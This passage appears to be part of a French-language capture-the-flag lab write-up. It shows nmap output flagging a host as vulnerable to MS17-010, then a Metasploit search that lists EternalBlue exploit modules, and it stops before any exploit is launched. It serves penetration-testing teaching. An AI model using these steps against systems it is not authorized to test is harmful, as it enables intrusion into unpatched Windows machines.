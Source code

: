 ```console
@@Host script results:@@
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

Comprendre la vulnérabilité pour préparer l'attaque : <br/>
* References : <br/>
       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/ <br/>
       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx  <br/>
       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143  <br/>

---

## :smiling_imp: Attaque Exploit :

**Metasploit** est un projet en relation avec la sécurité des systèmes informatiques. Son but est de fournir des informations sur les vulnérabilités de systèmes informatiques, d'aider à la pénétration et au développement de signatures pour les systèmes de détection d'intrusion.

Prise en main de Metasploit :

```console
$ msfconsole
```
<p align="center">
  <img src="https://github.com/kostarter/courses/blob/main/img/Screenshot_2021-09-25_at_14-59-26_Blue_01.png"/>
</p>

* Quelle est le nom de l'attaque à lancer ?
```
msf6 > search eternalblue
```

```
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
